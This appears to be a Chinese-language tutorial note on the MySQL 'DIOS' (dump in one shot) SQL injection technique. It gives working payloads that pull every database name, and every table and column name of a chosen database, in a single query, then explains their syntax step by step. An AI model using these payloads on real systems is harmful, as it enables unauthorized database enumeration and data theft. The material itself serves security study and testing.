 在https://mp.weixin.qq.com/s/84se5CxYlVT05bcw654wKg 这篇文章中首次看到的DIOS，感觉好像很厉害的样子，遂去网上开始找资料

先说结论（个人理解）：不是什么新的SQL注入漏洞利用方式，只是一种“在一条语句中提取全部数据的方便的”提取方式

# 获取所有数据库名：  
```
(select (@a) from (select(@a:=0x00),(select (@a) from (information_schema.schemata) where (@a) in (@a:=concat(@a,schema_name,'<br>'))))a);
```
![image](./0.png)  
解释：  
首先需要知道3个事：  
1、@a是sql中的变量，涉及到它的表达式需要用括号扩上  
2、:=是sql中的赋值符号  
3、sql中的函数concat有一个特性，如果参数中有一个为NULL，那么结果为NULL，所以需要先执行select(@a:=0x00)  
从最内层开始解释：  
```
(@a:=concat(@a,schema_name,'<br>'))
```
连接这3个参数的值  
倒数第二层的解释，此时语句变成了：  
```
(select (@a) from ( information_schema.schemata) where (@a) in (@a:=concat(@a,schema_name,'<br>')) )
```
通常的where in用法形如：select x from y where x in (1,2,3)从表y中选择字段x，然后x的值范围是（1,2,3）  
但是此条语句并不是通常的where in用法，而是将information_schema.schemata中schema_name的值依次添加到变量@a中  
倒数第三层的解释，此时语句变成了：  
```
(select (@a) from (select(@a:=0x00),expr1)a);
```
再进一步简化一下：  
```
(select (@a) from (expr2)a);
```
此条语句即表示：选择@a的值  
此时查看@a的值如下  
![image](./1.png)  
此时
```
(select(@a:=0x00),(select (@a) from (information_schema.schemata) where (@a) in (@a:=concat(@a,schema_name,'<br>'))));
```
的值如下  
![image](./2.png)  

# 获取指定数据库的全部表名和字段名
```
(select(@)from(select(@:=0x00),(select(@)from(information_schema.columns)where(table_schema='anyisec')and(@)in(@:=concat(@,0x3C62723E,table_name,0x3a,column_name))))a);
```
![image](./3.png)  

参考链接：  
http://blog.dreamfever.me/2016/04/20/dump-in-one-shot/  
http://securityidiots.com/Web-Pentest/SQL-Injection/Dump-in-One-Shot-part-1.html  
http://securityidiots.com/Web-Pentest/SQL-Injection/Dump-in-One-Shot-part-2.html  
http://securityidiots.com/Web-Pentest/SQL-Injection/DIOS-the-SQL-Injectors-Weapon-Upgraded.html
